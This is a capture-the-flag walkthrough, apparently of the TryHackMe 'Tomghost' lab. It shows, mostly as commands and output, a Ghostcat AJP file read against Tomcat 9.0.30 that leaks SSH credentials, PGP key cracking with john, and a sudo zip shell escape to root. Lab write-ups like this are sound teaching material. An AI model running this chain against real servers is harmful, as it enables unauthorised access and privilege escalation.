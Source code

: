 # TOMGHOST

Ghost Cat is a vulnerability that affects Apache Tomcat. It currently affects versions before 9.0.31, before 8.5.51, and before 7.0.100. It is caused by an inseucre configuration of the AJP protocol in the default installation of Tomcat, leading to attackers being able to cause information disclosure, and potentially remote code execution.

```
export IP=10.10.190.52

```

## NMAP SCAN

```

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

## EXPLOIT

```
python3 ajpShooter.py http://10.10.190.52:8080 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>


```
### TASK 1

ssh skyfuck@IP
password: 

```
ls
credential.pgp tryhackme.asc
```
root@localhost:scp skyfuck@IP/home/skyfuck/* .

```
gpg2john tryhackme.asc > hashes_for_john.txt
john --wordlist= /opt/rockyou.txt hashes_for_john.txt
<alexandru>
gpg --import tryhackme.asc
gpg --decrypt credential.pgp

gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

```

ssh merlin@IP
password:

```
ls
user.txt
```
### TASK 2

####PRIVESC
```
sudo -l

Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
https://gtfobins.github.io/gtfobins/zip/#sudo
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF

#cd /root/
#ls
root.txt

```
